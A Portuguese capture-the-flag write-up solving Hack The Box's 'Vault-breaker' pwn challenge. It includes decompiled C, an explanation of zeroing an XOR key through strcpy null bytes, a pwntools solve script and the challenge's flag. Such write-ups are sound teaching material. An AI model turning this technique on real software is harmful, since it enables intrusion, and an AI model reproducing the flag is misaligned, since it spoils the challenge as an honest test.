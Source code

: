 # WriteUp: Vault-breaker

## Descrição do Desafio:
**Autor**: [w3th4nds](https://app.hackthebox.com/users/70668) \
**Plataforma**: [Hack The Box](https://app.hackthebox.com/challenges/333) \
**Categoria**: Pwn \
**Dificuldade**: Muito fácil \
**Data**: 2022 \
**Descrição**:
> Money maker, Big Boy Bonnie has a crew of his own to do his dirty jobs. In a tiny little planet a few lightyears away, a custom-made vault has been found by his crew. Something is hidden inside it, can you find out the way it works and bring it to Bonnie?

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Como o desafio não fornece o código-fonte, o primeiro passo é executar o programa para vermos seu comportamento normal. Executando-o, percebemos que o programa criptografa alguma coisa, com uma chave de valor desconhecido, e devolve o resultado para nós.

Como isso é insuficiente para determinar o que está acontecendo de fato, devemos analisar o assembly do executável. Olhando pelo **Ghidra**, podemos identificar duas funções importantes, a `new_key_gen()` e a `secure_password()`. A primeira é chamada toda vez que a opção 1 for selecionada, e a segunda é chamada quando a opção 2 for selecionada.

{% hint style="info" %}

**Nota:** O programa só encerra a execução se qualquer número, com exceção do 1, for digitado.

{% endhint %}

{% code tittle="new_key_gen" overflow="wrap" lineNumbers="true" %}

```c
void new_key_gen(void)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  ulong local_60;
  ulong local_58;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_60 = 0;
  local_58 = 0x22;
  __stream = fopen("/dev/urandom","rb");
  if (__stream == (FILE *)0x0) {
    fprintf(stdout,"\n%sError opening /dev/urandom, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  while (0x1f < local_58) {
    printf("\n[*] Length of new password (0-%d): ",0x1f);
    local_58 = read_num();
  }
  memset(local_48,0,0x20);
  iVar1 = fileno(__stream);
  read(iVar1,local_48,local_58);
  for (; local_60 < local_58; local_60 = local_60 + 1) {
    while (local_48[local_60] == '\0') {
      iVar1 = fileno(__stream);
      read(iVar1,local_48 + local_60,1);
    }
  }
  strcpy(random_key,local_48);
  fclose(__stream);
  printf("\n%s[+] New key has been genereated successfully!\n%s",&DAT_00103142,&DAT_001012f8);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

{% endcode %}

{% code tittle="secure_password" overflow="wrap" lineNumbers="true" %}

```c
void secure_password(void)

{
  char *__buf;
  int __fd;
  ulong uVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char acStack_88 [24];
  undefined8 uStack_70;
  int local_68;
  int local_64;
  char *local_60;
  undefined8 local_58;
  char *local_50;
  FILE *local_48;
  undefined8 local_40;
  
  local_40 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  uStack_70 = 0x100c26;
  puts("\x1b[1;34m");
  uStack_70 = 0x100c4c;
  printf(&DAT_00101308,&DAT_001012f8,&DAT_00101300,&DAT_001012f8);
  local_60 = &DAT_00101330;
  local_64 = 0x17;
  local_58 = 0x16;
  local_50 = acStack_88;
  memset(acStack_88,0,0x17);
  local_48 = fopen("flag.txt","rb");
  __buf = local_50;
  if (local_48 == (FILE *)0x0) {
    fprintf(stderr,"\n%s[-] Error opening flag.txt, contact an Administrator..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  sVar2 = (size_t)local_64;
  __fd = fileno(local_48);
  read(__fd,__buf,sVar2);
  fclose(local_48);
  puts(local_60);
  fwrite("\nMaster password for Vault: ",1,0x1c,stdout);
  local_68 = 0;
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
  puts("\n");
                    /* WARNING: Subroutine does not return */
  exit(0x1b39);
}
```

{% endcode %}

Analisando as funções, podemos perceber o seguinte:
- Podemos chamar a função `new_key_gen()` quantas vezes nós quisermos.
- A *key* é gerada através do arquivo `/dev/urandom`, e seu tamanho é determinado pelo usuário.
- A *key* é salva na variável `random_key`, que consegue armazenar no máximo 32 caracteres.
- A **flag** é criptografada por um xor entre os caracteres dela com os caracteres da *key* de mesmo índice.

### 2. Exploit
A solução é bem simples, a *key* gerada é salva na variável `random_key`, que desde o início já possuí um valor aleatório, por meio da função `strcpy()`. Essa função, além de copiar o valor da *key* ela também copia os *byte* nulo presente no final de toda *string*.

Com isso, podemos ir zerando o valor da `random_key`, começando com uma *key* de tamanho máximo e indo até o valor 0. Dessa forma, o *byte* nulo presente no final de cada *key* gerada é salvo nos índices [31] a [0] da variável.

{% hint style="warning" %}

**Importante:** A variável deve ser zerada do final até o início, pois se for do início até o final, o *byte* zerado anteriormente é sobrescrevido por um novo valor de *key*.

{% endhint %}

Após zerar a variável, basta selecionar a opção 2, que a **flag** será mostrada, pois qualquer operação xor entre um valor e 0 é o próprio valor.

{% code tittle="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./vault-breaker")
p = remote("ip", porta)
#p = process()

for i in range(31, -1, -1):
    p.recvuntil(b"[+]")
    p.sendlineafter(b"> ", b"1")
    p.sendlineafter(b"(0-31): ", hex(i).encode())

p.sendlineafter(b"> ", b"2")
p.recvuntil(b"Vault: ")
print(p.recvline().decode())
```

{% endcode %}

### Flag
`HTB{d4nz4_kudur0r0r0}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)